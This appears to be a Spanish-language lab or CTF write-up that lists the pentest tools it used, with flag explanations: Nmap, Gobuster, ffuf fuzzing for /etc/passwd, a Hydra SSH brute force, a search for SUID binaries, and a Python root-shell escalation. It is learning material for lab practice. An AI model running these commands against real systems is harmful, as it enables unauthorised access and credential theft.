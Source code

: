 ## 🛠️ Herramientas, comandos y servicios usados

### 🔍 Nmap
Escanea puertos y detecta servicios.
```
nmap -p- --open -A -sS -Pn -n <IP>

    -p-: escanea todos los puertos.
    
    --open: muestra solo los puertos abiertos.
    
    -A: detección de sistema y versión.
    
    -sS: escaneo SYN, más sigiloso.
    
    -Pn: no hace ping previo.
    
    -n: no resuelve nombres DNS. 
```

### 🪓 Gobuster
Hace fuzzing para encontrar directorios o archivos ocultos.
```
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,py,html,txt,js
    -w: diccionario.
    -x: extensiones que queremos probar.
```

### 🏹 Ffuf
Fuzzing para probar parámetros o rutas.
```
ffuf -c -t 200 -fc 404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://<IP>/index.php?FUZZ=/etc/passwd"
    -fc 404: ignora errores 404.
    
    -t 200: usa 200 hilos (va más rápido).
    
    -u: URL con FUZZ donde se probarán los valores.
```

### 🔐 Hydra
Fuerza bruta contra servicios de autenticación.
```
hydra -L usuarios.txt -p purpl3 -I ssh://172.17.0.2 -V -F -u

    -L usuarios.txt: lista de nombres de usuario. Si solo fuera un usuario lo indicamos y ponemos -l.
    
    -p purpl3: usa la contraseña "purpl3" para todos los usuarios. Si fuera ir probando + de una contraseña seria -P y usar por ejemplo el diccionario rockyou.
    
    -I: retoma sesión interrumpida si existe.
    
    ssh://172.17.0.2: objetivo y protocolo (SSH).
    
    -V: muestra cada intento de login (modo verboso).
    
    -F: para al encontrar una combinación válida.
    
    -u: prueba usuario a usuario, no combinaciones completas.

```

###  🔎 Find permisos SUID
Busca archivos ejecutables con bit SUID activado (ejecutables con privilegios del dueño).
```
find / -perm -4000 -user root 2>/dev/null

    /: busca desde la raíz del sistema.
    
    -perm -4000: busca archivos con bit SUID activado.
    
    -user root: limitados a archivos propiedad del usuario root(o el que especifiques).
    
    2>/dev/null: oculta errores (por ejemplo, por falta de permisos).

```

### 🐍 Python Shell Escalation
Ejecuta una shell Bash desde un script Python, útil para escalar privilegios si se ejecuta como root.
```
import os;
os.system("/bin/bash")
```

